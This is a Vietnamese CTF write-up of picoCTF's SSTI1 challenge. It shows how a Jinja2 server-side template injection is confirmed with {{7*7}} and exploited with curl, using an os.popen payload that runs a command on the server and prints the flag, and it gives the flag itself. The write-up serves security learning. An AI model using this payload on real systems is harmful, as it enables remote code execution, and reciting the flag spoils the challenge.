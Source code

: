 # 🧠 Writeup: SSTI1 - PicoCTF 

> 🔖 Chủ đề: Server Side Template Injection (SSTI)  

---

## 📌 **Description**

> **_“I made a cool website where you can announce whatever you want! Try it out!_”**  
> Additional details will be available after launching your challenge instance.

> Khi truy cập vào challenge, ta thấy một giao diện trang web đơn giản cho phép người dùng nhập nội dung vào một ô và gửi thông điệp lên website.
![](../img/SSTI1.png)
---

## 💡 **Hint**

> **Server Side Template Injection**

Gợi ý này cho thấy khả năng tồn tại lỗ hổng **SSTI** trong quá trình render nội dung người dùng nhập vào.

---

## 🔍 **Solution**

Khi xem mã nguồn HTML của trang, ta phát hiện một form đơn giản cho phép nhập nội dung, điều này đặt nghi vấn rằng dữ liệu đầu vào của người dùng có thể được render trực tiếp trong một template engine phía server, rất có thể là Jinja2 nếu backend viết bằng Python:

```html
<form action="/" method="POST">
    What do you want to announce: 
    <input type="text" value="Hello">
    <input type="submit" value="Ok">
</form>
```
Ta thử nhập "Hello" và thấy sever chuyển hướng ta cùng với việc hiển thị nội dung lên màn hình : 
![](../img/SSTI1-output.png)
Server phản hồi với HTML có chứa dòng:
```html
<h1 style="font-size:100px;" align="center">Hello</h1>
```
##### Tiếp tục thử với payload phổ biến với SSTI là ``{{7*7}}``, ta nhận được kết quả là : 
![](../img/SSTI1-output-payload.png)
---

Sau khi xác định được hệ thống tồn tại lỗ hổng Server-Side Template Injection (SSTI), ta tiếp tục thử nghiệm khai thác trên một instance mới tại địa chỉ:

``http://rescued-float.picoctf.net:63974/``

Đầu tiên, ta tiến hành kiểm tra xem lỗ hổng còn hoạt động hay không bằng cách gửi một yêu cầu đơn giản sử dụng lệnh:
```bash
#curl -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/ -L
```
Kết quả phản hồi:
```html
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">Hello</h1>
```
Điều này xác nhận rằng dữ liệu đầu vào từ người dùng vẫn được render trực tiếp trong template — một dấu hiệu rõ ràng của SSTI đang tồn tại.
Tiếp theo, ta thử khai thác RCE (Remote Code Execution) bằng cách sử dụng payload đã được chứng minh hiệu quả trong môi trường sử dụng Jinja2, cụ thể:

```bash
#curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/
```

Kết quả trả về từ server như sau:
```html
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}</h1> 
```

### Flag : ``picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}`` 
